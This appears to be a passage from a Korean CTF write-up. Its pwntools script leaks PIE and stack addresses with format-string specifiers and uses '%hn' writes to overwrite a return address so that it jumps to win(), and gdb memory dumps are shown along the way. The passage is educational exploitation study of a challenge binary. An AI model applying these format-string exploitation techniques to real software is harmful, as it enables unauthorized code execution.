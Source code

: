 ```python
Prep()
PIEbase = int(r.recvline()[2:-1], 16) - 0xa77 # address of PIE base
addr_win = PIEbase + 0x9fd # address of win()
log.info("address of win(): " + hex(addr_win))
addr_cmd = PIEbase + 0x2040 # address of variable 'cmd'
log.info("address of variable 'cmd': " + hex(addr_cmd))

Edit("A" * 0x19 + "%10$p")
Prep()
addr_ret = int(r.recvline()[2:-1], 16) - 0xc # address where return address is on
log.info("return address is on " + hex(addr_ret))

writable = addr_cmd + 0xc0 # address of writable memory
log.info("address of writable memory: " + hex(writable))

Edit("A" * 0x19 + "B%6$hn")
r.recvuntil("> ")
pause()
r.sendline(str(writable + 0x2))

for i in range(0x26, 0x30):
    r.recvuntil("> ")
    r.sendline(str(addr_cmd + i))

r.recvuntil("> ")
pause()
r.sendline(str(writable + 0x1))

r.interactive()
```

`pause()`가 걸린 상태에서 스택과 `cmd`의 메모리를 관찰해 보자.

```bash
gdb-peda$ x/20wx 0x565a7040
0x565a7040 <cmd>:	0xa9929ff0	0x41202020	0x41414141	0x41414141
0x565a7050 <cmd+16>:	0x41414141	0x41414141	0x41414141	0x41414141
0x565a7060 <cmd+32>:	0x24362542	0x01016e68	0x01010101	0x01010101
0x565a7070 <cmd+48>:	0x41414100	0x41414141	0x41414141	0x41414141
0x565a7080 <cmd+64>:	0x41414141	0x41414141	0x36254241	0x006e6824
```

`NULL` 없이 채워진 것을 확인할 수 있다. `0x565a7070`에 있는 `NULL` 1바이트는 `1. Edit name.`을 하면 채울 수 있다. 이 상태에서 기존의 포맷 스트링은 무시하고 새로운 포맷 스트링을 만들어서 return address를 원하는 값으로 덮을 수 있다. `win()`과 `main+79`의 상위 2바이트는 같기 때문에 그대로 두고, `win()`의 하위 2바이트만 return address의 하위 2바이트에 덮어 주면 된다.

```python
addr_win_low = int(hex(addr_win)[6:], 16) # low 2byte of address of win()

r.recvuntil("> ")
r.sendline(str(writable + 0x1))
r.recvuntil("Name: ")
r.send("%" + str(addr_win_low - 0x19) + "x%6$hn")

r.recvuntil("> ")
r.sendline("-" + str(0x100000000 - addr_ret))

Exit()
```

---